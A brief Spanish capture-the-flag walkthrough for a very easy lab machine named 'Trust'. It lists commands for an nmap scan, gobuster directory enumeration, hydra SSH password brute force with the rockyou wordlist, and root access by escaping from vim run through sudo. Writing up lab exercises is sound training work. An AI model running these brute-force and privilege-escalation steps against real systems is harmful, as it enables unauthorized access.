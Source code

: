 Maquina: Trust
Autor: El Pinguino de Mario 
Dificultad: Muy Facil

ping 172.17.0.2 -c 1
sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN puertos
sudo gobuster dir -w /usr/share/wordlist/Seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/' -x .php,.sh,.py,.txt
buscamos en el archivo encontrado y descubrimos el nombre de un usuario
utilizamos hydra para conseguir la contraseña
sudo hydra -l mario -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2
entramos por ssh con la contraseña encontrada
ssh mario@172.17.0.2
sudo -l
descubrimos que podemos ejecutar el comando vim
sudo -u root /usr/bin/vim
:!/bin/bash
whoami
